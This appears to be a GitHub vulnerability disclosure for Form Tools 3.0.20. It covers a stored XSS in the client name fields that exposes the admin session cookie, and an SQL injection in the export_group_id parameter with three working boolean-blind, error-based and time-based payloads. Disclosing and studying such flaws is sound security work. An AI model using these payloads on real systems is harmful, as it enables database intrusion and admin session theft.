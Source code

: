 # Form Tools - Version 3.0.20

### CVE-2021-38143 - Stored XSS
An issue was discovered in Form Tools through 3.0.20.
When an administrator creates a customer account, it is possible for the customer to log in and proceed with a change of name and last name. However, these fields are vulnerable to XSS payload insertion, being triggered in the admin panel when the admin tries to see the client list. This type of XSS (Stored) can lead to the extraction of the PHPSESSID cookie belonging to the admin.

###

Insertion of the payload in the "First Name" (client account) field:

![alt text](https://github.com/bernardofsr/CVEs-With-PoC/blob/main/PoCs/Form%20Tools/images/StoredXSS.png?raw=true "Payload on 'First Name'")

###
The administrator logs in and opens the page with the list of clients:

![alt text](https://github.com/bernardofsr/CVEs-With-PoC/blob/main/PoCs/Form%20Tools/images/StoredXSS2.png?raw=true "Payload triggered")

XSS triggered and exposing the admin cookie.

##

### CVE-2021-38144 - Reflected XSS
[Reserved CVE][Soon Available]

##

### CVE-2021-38145 - SQL Injection
An issue was discovered in Form Tools through 3.0.20.
SQL Injection can occur via the **export_group_id** field when a low-privileged user (client) try to export a form with data, e.g., manipulation of modules/export_manager/export.php?export_group_id=1&export_group_1_results=all&export_type_id=1

Create data table export using a normal user account by clicking *display*:

![alt text](https://github.com/bernardofsr/CVEs-With-PoC/blob/main/PoCs/Form%20Tools/images/SQLI1.png?raw=true "Special character insertion")

###
Insertion of the special character **'** to test for possible break in the query and cause database errors:

![alt text](https://github.com/bernardofsr/CVEs-With-PoC/blob/main/PoCs/Form%20Tools/images/SQLI2.png?raw=true "Special character insertion")

###

The endpoint is vulnerable to the following types of SQL Injection attacks:

```
> Parameter: export_group_id (GET)
     
     Type: boolean-based blind
     Title: AND boolean-based blind - WHERE or HAVING clause
     Payload: export_group_id=1 AND 5636=5636&export_group_1_results=all&export_type_id=1

     Type: error-based
     Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
     Payload: export_group_id=1 AND (SELECT 4229 FROM(SELECT COUNT(*),CONCAT(0x717a627171,(SELECT (ELT(4229=4229,1))
     ),0x716b787171,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)&export_group_1_results=all&
     export_type_id=1

     Type: time-based blind
     Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
     Payload: export_group_id=1 AND (SELECT 1946 FROM (SELECT(SLEEP(5)))nmeR)&export_group_1_results=all&
     export_type_id=1
```